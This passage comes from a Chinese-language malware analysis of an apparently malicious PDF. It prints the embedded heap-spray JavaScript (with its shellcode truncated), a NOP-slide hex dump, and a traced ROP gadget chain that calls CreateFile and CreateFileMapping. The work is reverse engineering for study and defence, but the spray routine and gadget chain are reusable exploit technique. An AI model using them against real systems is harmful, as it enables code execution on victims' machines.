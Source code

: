 0C0C0E10  BF AE 76 EB 83 D6 F4 1E 7B 2D E4 6A 7E 69 A2 87  慨v雰拄{-鋔~i
0C0C0E20  F2 E2 47 A8 A1 03 42 CB 24 90 0E 22 C3 10 B4 3A  蜮GāB??"??
0C0C0E30  0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................    <-- NOP slide
0C0C0E40  0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................
</pre>

通过 PDFStreamDumper 可以看到内嵌的 JavaScript，将变量还原后代码如下：
```javascript
var shellcode = unescape( '%u4141%u4141%u63a5%u4a80%u0000 ...省略大量字符... a1%ucb42%u9024%u220e%u10c3%u3ab4' );
var rop = unescape( "%u0c0c%u0c0c" );
while (rop.length + 20 + 8 < 65536) rop+=rop;
SP = rop.substring(0, (0x0c0c-0x24)/2);
SP += shellcode;
SP += rop;
slackspace = SP.substring(0, 65536/2);
while(slackspace.length < 0x80000) slackspace += slackspace;
bigblock = slackspace.substring(0, 0x80000 - (0x1020-0x08) / 2);
var memory = new Array();
for (count=0;count<0x1f0;count++) memory[count]=bigblock+"s";
```

接下来程序将依次执行下面的 gadgets：
```
4A8063A5    59              pop ecx         ; esp = 0C0C0C14, ecx = 4A8A0000
4A8063A6    C3              retn            ; esp = 0C0C0C18, eip = 4A802196
```
```
4A802196    8901            mov dword ptr ds:[ecx],eax
4A802198    C3              retn            ; eip = 4A801F90
```
```
4A801F90    58              pop eax         ; eax = 4A84903C <&KERNEL32.CreateFileA>
4A801F91    C3              retn            ; esp = 0C0C0C24, eip = 4A80B692
```
```
4A80B692  - FF20            jmp dword ptr ds:[eax]                   ; kernel32.CreateFileA
```
调用函数 `kernel32.CreateFileW` 创建文件，各参数如下所示：
```
0C0C0C04   7FFDFC00  |FileName = "iso88591"
0C0C0C08   10000000  |Access = GENERIC_ALL
0C0C0C0C   00000000  |ShareMode = 0
0C0C0C10   00000000  |pSecurity = NULL
0C0C0C14   00000002  |Mode = CREATE_ALWAYS
0C0C0C18   00000102  |Attributes = HIDDEN|TEMPORARY
0C0C0C1C   00000000  \hTemplateFile = NULL
```

然后通过同样的方法调用 `CreateFileMapping`：
```
4A8063A5    59              pop ecx         ; esp = 0C0C0C4C, ecp = 4A801064
4A8063A6    C3              retn            ; esp = 0C0C0C50, eip = 4A842DB2
```
```
4A842DB2    97              xchg eax,edi
4A842DB3    C3              retn            ; esp = 0C0C0C54, eip = 4A802AB1
```
```
4A802AB1    5B              pop ebx         ; esp = 0C0C0C58, ebx = 00000008
4A802AB2    C3              retn            ; esp = 0C0C0C5C, eip = 4A80A8A6
```
```
4A80A8A6    213C5C          and dword ptr ss:[esp+ebx*2],edi
4A80A8A9    75 03           jnz short icucnv36.4A80A8AE
4A80A8AB    B0 01           mov al,0x1
4A80A8AD    C3              retn
```
```
```